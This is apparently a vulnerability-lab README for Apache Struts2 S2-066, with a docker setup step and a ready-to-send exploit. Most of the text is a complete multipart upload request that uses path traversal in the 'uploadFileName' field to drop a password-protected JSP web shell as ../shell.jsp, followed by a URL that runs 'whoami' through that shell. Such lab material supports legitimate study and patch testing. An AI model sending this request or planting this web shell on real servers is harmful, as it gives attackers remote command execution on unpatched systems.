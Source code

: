 # Struts2 S2-066

## Setup

```
docker compose up -d
```

After the environment is started, visit `http://your-ip:8080/struts-1.0-SNAPSHOT` and you will see a simple page.

## Exploit

```
POST /struts-1.0-SNAPSHOT/upload.action HTTP/1.1
Host: 127.0.0.1
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="Upload"; filename="1.txt"
Content-Type: text/plain

<% if("test".equals(request.getParameter("pwd"))){ java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b)); } out.print("</pre>"); } %>
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN
Content-Disposition: form-data; name="uploadFileName"; 
Content-Type: text/plain

../shell.jsp
--------------------------xmQEXKePZSVwNZmNjGHSafZOcxAMpAjXtGWfDZWN--

```

`http://127.0.0.1:8080/struts-1.0-SNAPSHOT/shell.jsp?pwd=test&cmd=whoami`
